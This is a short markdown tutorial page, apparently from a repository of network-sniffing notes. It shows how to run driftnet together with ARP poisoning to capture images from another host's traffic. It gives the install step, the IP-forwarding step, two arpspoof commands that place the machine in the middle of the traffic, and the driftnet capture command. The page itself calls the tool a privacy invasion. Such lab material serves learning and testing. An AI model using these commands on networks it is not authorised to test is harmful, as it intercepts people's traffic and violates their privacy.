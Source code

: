 ### Driftnet with ARP Poisoning

---

![Driftnet with ARP Poisoning](/images/sniffing/driftnet_with_ARP_Poisoning.png)
Driftnet watches network traffic, and picks out and displays JPEG and GIF images for display. It is a horrific invasion of privacy and shouldn’t be used by anyone anywhere. It can also extract MPEG audio data from the network and play it. If you live in a house with thick walls, this may be a useful way to find out about your neighbours’ musical taste.
[Source](https://github.com/deiv/driftnet)

### Installing:

```
sudo apt install driftnet
```

### Preparing the mechanine:

As root:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### ARP Poisoning:

As any user we have to create an arp poisoning in two different terminals:

```
sudo arpspoof -i tap0 -t <target 1 ip> -r <target 2 ip or gateway>
```

```
sudo arpspoof -i tap0 -t <target 2 ip or gateway> -r <target 1 ip>
```

In order to begin collecting images:

```
sudo driftnet -i <network interface>
```

The article image is a live example of HTTP delivered website and you can observe all the icons and the placeholder images.

---

[Sniffing](/sniffing/sniffing_readme.md)  [HOME Page](/README.md)
